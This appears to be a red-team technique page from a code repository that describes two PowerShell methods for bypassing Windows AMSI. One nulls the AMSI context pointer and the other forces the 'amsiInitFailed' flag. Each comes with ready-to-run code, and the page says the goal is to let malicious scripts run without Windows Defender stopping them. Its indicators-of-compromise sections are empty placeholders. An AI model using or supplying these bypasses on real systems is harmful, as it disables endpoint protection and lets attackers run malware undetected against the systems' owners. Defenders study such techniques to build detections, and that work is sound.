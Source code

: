 # Powershell AMSI Bypass
## Summary

AMSI (Antimalware Scan Interface) is used to monitor several processes under Windows that can be used to run commands, such as powershell and jscript. Under powershell, there are several methods that can be used to bypass this technology, which will prevent Windows Defender from stopping the powershell process whilst executing a malicious script. The following is an example of AMSI when it's functioning properly:

![AMSI Functioning](./images/Pasted%20image%2020230707132119.png)

## Prerequisites

Windows Defender (or another AV that implements AMSI) must be running and must be active. Further, the ability to execute powershell against the target is required.

## Setup

N/A

## Execution

### Method 1 - Nulling the AMSI Context

This method is used to null out the pointer that AMSI uses to keep track of its current context. Instead of crashing the process or preventing any command from being executed, all commands will be allowed to execute even if they are malicious. This technique can be done from powershell itself, and needs no external utility.

Use the following powershell code to bypass AMSI:

```powershell
foreach($x in [Ref].Assembly.GetTypes()){if($x.Name -like '*iUtils'){$a=$x}}
foreach($x in $a.GetFields('NonPublic,Static')){if($x.Name -like '*Context'){$c=$x}}
[IntPtr]$ptr=$c.GetValue($null)
[Int32[]]$buf=@(0)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

Now the 'amsiutils' test string should not trigger defender:

![Bypass AMSI](./images/Pasted%20image%2020230707132744.png)

#### Indicators of Compromise

TODO

### Method 2 - Telling AMSI that init Failed

Similar to method 1, only powershell is needed for this technique. Instead of corrupting the AMSI context pointer, it's possible to convince AMSI that it's initialization failed.

Use the following powershell to bypass AMSI:

```powershell
foreach($x in [Ref].Assembly.GetTypes()){if($x.Name -like '*iUtils'){$a=$x}}
foreach($x in $a.GetFields('NonPublic,Static')){if($x.Name -like '*iInitFailed'){$i=$x}}
$i.SetValue($null, $true)
```

Now the 'amsiutils' test string should not trigger defender:

![Bypass AMSI via Init](./images/Pasted%20image%2020230707133543.png)

#### Indicators of Compromise

TODO